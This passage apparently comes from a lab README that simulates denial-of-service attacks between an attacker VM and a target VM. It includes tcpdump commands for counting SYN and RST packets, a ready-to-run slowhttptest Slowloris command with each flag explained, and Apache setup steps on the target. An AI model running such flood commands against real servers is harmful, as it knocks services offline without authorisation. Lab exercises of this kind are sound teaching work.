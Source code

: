 Target Vm:

=> 

    sudo tcpdump -n -i ens192 -s0 -w tcpsyn.pcap src net 133.228.64.0/18 port 1234 and tcp -vvv

* Captures tcp packets coming from the given source network on port 1234.

=> 

    sudo tcpdump -r tcpsyn.pcap | grep "S"| wc -l

* Looks for tcp SYN flag -> S stands for the Flags [S]

=> 
    
    sudo tcpdump -r tcpsyn.pcap | grep "R"| wc -l

* Looks for tcp Reset flag -> R stands for the Flags [R.]

### E. HTTPS Slowloris attack:

Attacker VM:

=> 

    slowhttptest -c 1000 -H -i 10 -r 25 -t GET -u http://133.228.86.3

* -c tells the number of connections to be established.
* -H stands for slowloris mode. 
* -i tells the interval 
* -r is connection rate => how many connections per second. 
* -t HTTP method. 
* -u tells url or ip of the server.

Target Vm:

=> 

    apache2 -v

* Tells the version of apache 2. to check if it is installed.

=> 

    sudo systemctl is-enabled apache2.service 
=> 
    
    sudo systemctl start apache2.service 
    
=> 
    
    sudo systemctl status apache2.service

*  Starts the apache service.

## 2. Script output and TCPDump Capture Analysis:

### A. ICMP Flood Attack:

Attacker VM:
